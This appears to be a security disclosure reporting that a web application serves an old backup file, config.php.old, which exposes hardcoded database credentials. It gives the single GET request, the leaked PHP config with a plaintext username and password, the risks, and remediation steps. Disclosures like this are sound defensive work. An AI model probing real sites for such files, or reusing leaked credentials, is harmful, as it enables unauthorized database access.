

# Description
The application has exposed an old configuration file (`config.php.old`) containing hardcoded database credentials in plaintext.
This file is publicly accessible without any authentication, allowing any remote attacker to retrieve sensitive database connection information (username, password, host, database name).

# Exploitation
The old configuration file is directly accessible at:
```
GET /config.php.old HTTP/2
```

No authentication or path traversal is required — the file is served as-is by the web server.

# PoC
By simply requesting `/config.php.old`, the server returns the full PHP configuration with plaintext credentials:



The response reveals:
```php
<?php
$host = 'db';
$db   = 'my_association_db';
$user = 'user';
$pass = 'userpassword';
$charset = 'utf8mb4';

$dsn = "mysql:host=$host;dbname=$db;charset=$charset";
$options = [
    PDO::ATTR_ERRMODE            => PDO::ERRMODE_EXCEPTION,
    PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    PDO::ATTR_EMULATE_PREPARES   => false,
];

try {
    $pdo = new PDO($dsn, $user, $pass, $options);
} catch (\PDOException $e) {
    throw new \PDOException($e->getMessage(), (int)$e->getCode());
}
?>
```

Critical information exposed:
```
$user = 'user';
$pass = 'userpassword';
```

# Risk
- Data Breach: exposure of sensitive user data or application data stored in the database
- Unauthorized Access: attacker gaining control of the database and manipulating data
- Privilege Escalation: using exposed credentials to escalate privileges or pivot within the network
- SQL injection attacks with elevated privileges using the leaked credentials

# Remediation
1. Remove the `config.php.old` file from the web-accessible directory
2. Restrict file access using `.htaccess` or server configuration to block access to sensitive files
3. Implement proper file permissions so only authorized processes can access configuration files
4. Use environment variables or a secure vault to store sensitive credentials instead of hardcoding them
5. Regularly rotate credentials and ensure old credentials are invalidated

# Author
4_fromages
